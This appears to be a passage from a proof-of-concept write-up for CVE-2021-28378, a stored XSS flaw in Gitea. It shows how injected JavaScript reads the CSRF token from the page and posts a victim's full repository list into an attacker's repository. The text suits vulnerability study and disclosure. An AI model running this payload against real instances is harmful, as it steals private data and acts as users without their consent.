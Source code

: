 The CVE-2021-28378 is proven being able to enable arbitrary code injection.
Let's imagine what an attacker could do.

On Gitea, you have a CSRF token which asserts your identity when filling forms and/or calling the API, preventing security issues like embedding a Gitea iframe to steal your accesses.
The CSRF token stored in your cookies (`_csrf`), but also in pretty much all the webpages (except some like `/api/v1/swagger`) a user visits under some fields... And so on the issues/PR webpages.
The most interesting field containing it is inside the common header part of the HTML pages, always with the same XPath: `/html/head/meta[9]`.

With this data, we can now send authenticated actions from any user affected by our payload, by simply getting the CSRF token in JS, with the following: `(document.evaluate("/html/head/meta[9]", document, null, XPathResult.FIRST_ORDERED_NODE_TYPE, null).singleNodeValue).content`.

Now, it's time to use your creativity to build various attacks.
Notice you'll be limited in your actions, but not that much:
 - the `label.name` and `issue.title` must be short, and so not many payloads will fit. Nevertheless, you can inject a `script` with a `src` attribute that will reference any script you want.
 - the `body` is not limited in length, but the preview of the popup doesn't load so much data. Your payload will have to be at the beginning if you want it to get triggered. Nevertheless, you can do as specified previously with a `script` and a `src` attribute.

Let's have a look at some examples you can build.

### Get all the repositories of a user

Imagine the scenario where an attacker wants to get all the repositories you have access to. It proves the attack can break all your confidentiality.
This attack is achieved in 3 steps:
 - steal the CSRF token ;
 - get the list of the repositories ;
 - create a new ticket with the raw JSON content of the previous step.

Let's write some JS code to do this:
```js
var AppURL = "http://mygitea.com";
var HackerRepo = "/hacker/mysaferepo"

var CSRF = (document.evaluate("/html/head/meta[9]", document, null, XPathResult.FIRST_ORDERED_NODE_TYPE, null).singleNodeValue).content;

var xhrGet = new XMLHttpRequest();
xhrGet.open("GET", AppURL + "/api/v1/repos/search", true);
xhrGet.onload = function() {
    if (xhrGet.readyState === XMLHttpRequest.DONE) {
        var xhrPost = new XMLHttpRequest();
        xhrPost.open("POST", AppURL + HackerRepo + "/issues/new", true);
        xhrPost.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        xhrPost.send("_csrf=" + CSRF + "&title=Title&content=" + xhrGet.responseText);
    }
}
xhrGet.send(null);
```
